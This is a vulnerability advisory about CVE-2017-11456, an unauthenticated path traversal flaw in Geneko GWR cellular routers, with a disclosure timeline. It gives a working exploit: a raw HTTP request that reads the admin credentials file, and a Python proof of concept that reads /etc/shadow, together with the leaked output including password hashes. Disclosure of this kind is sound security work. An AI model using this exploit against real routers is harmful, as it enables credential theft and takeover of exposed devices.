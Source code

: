 ## Vulnerability Summary
The following advisory describes a Unauthenticated Path Traversal vulnerability found in Geneko GWR routers series.

Geneko GWG is compact and cost effective communications solution that provides cellular capabilities for fixed and mobile applications such as data acquisition, smart metering, remote monitoring and management. GWG supports a variety of radio bands options on 2G, 3G and 4G cellular technologies.

## Credit
An independent security researcher has reported this vulnerability to Beyond Security’s SecuriTeam Secure Disclosure program

## Vendor response
We have informed Geneko of the vulnerability on the 28th of May 2017, the last email we received from them was on the 7th of June 2017. We have no further updates from Geneko regarding the availability of a patch or a workaround for the vulnerability.
CVE: CVE-2017-11456

## Vulnerability Details
User controlled input is not sufficiently sanitized, and then passed to a function responsible for accessing the filesystem. Successful exploitation of this vulnerability enables a remote unauthenticated user to read the content of any file existing on the host, this includes files located outside of the web root folder.

By sending the following GET request, You get direct access to the configuration file, which allows you to log in to the login panel:

```
GET /../../../../../../../../../../../../mnt/flash/params/j_admin_admin.params HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:53.0) Gecko/20100101 Firefox/53.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: de,en-US;q=0.7,en;q=0.3
Connection: close
Upgrade-Insecure-Requests: 1
```

## Router response:

```
HTTP/1.1 200 OK
Content-Type: application/octet-stream
Content-Length: 121

{"enable":true,"username":"admin","password”:"xxx!","web_access":0,"http_port":80,"https_port":443,"gui_timeout":15}

In this case, the admin user is configured to have access to the shell (SSH Access) as can be seen in the /etc/passwd

admin:x:0:0:root:/root:/root/cli
```

## Proof of Concept

path_traversal.py

```
import requests
import sys
domain = sys.argv[1]
r = requests.get("http://"+domain+"/../../../../../etc/shadow")
print r.content
```

The router then will response with:


```
root:$1$ryjw5yTs$xoQlzavABZ5c7gQuD7jKO0:10933:0:99999:7:::
bin:*:10933:0:99999:7:::
daemon:*:10933:0:99999:7:::
adm:*:10933:0:99999:7:::
lp:*:10933:0:99999:7:::
sync:*:10933:0:99999:7:::
shutdown:*:10933:0:99999:7:::
halt:*:10933:0:99999:7:::
uucp:*:10933:0:99999:7:::
operator:*:10933:0:99999:7:::
nobody:*:10933:0:99999:7:::
admin:$1$72G6z9YF$cs5dS2elxOD3qicUTlEHO/:10933:0:99999:7:::
```